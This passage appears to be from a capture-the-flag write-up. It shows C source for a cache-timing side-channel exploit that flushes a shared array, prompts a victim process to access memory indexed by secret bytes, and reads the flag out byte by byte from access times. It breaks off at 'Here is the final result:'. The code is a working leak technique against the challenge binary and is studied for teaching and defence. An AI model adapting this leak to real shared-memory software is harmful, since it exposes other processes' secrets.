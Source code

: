 ```c
        if(diff < min_time){
            min_time = diff;
            best_candidate = i;
        }
    }
    return best_candidate;
}

/* Leak the char at baby_array[index].
 * We do it 10 times and return the char with highest score
 */
char leak_char(int index){

    uint8_t scores[256] = {0};

    for(int i = 0; i < 10; i++){
        // Flush the cache
        for(int j = 0; j < 256; j++) {
            _mm_clflush((void*)(the_array + j * PAGE_SIZE));
        }

        // Make the victim access the_array[baby_array[index] * PAGE_SIZE]
        char buf[4];
        sprintf(buf, "%2d\n", index);
        write (STDOUT_FILENO, buf, 3);
        scores[get_min_access_time()]++;
    }

    // Find the char with max score
    char leaked_char = 0;
    uint8_t highest_score = 0;
    for(int i = 0; i < 256; i++){
        if(scores[i] > highest_score){
            highest_score = scores[i];
            leaked_char = i;
        }
    }

    return leaked_char;
}

int main(int argc, char *const argv[]) {

    nice(1); // Give a higher priority to the attacker process.
    char leaked_flag [FLAG_SIZE + 1] = {0};

        the_array = (const char *) (map_file("./chall") + OFFSET_TO_THE_ARRAY);

    for(int i = 0; i < FLAG_SIZE; i++){
        leaked_flag [i] = leak_char(i + 48);
    }

    fprintf(stderr, "\nLeaked flag : %s\n",leaked_flag);
    return 0;
}
```
Here is the final result: 
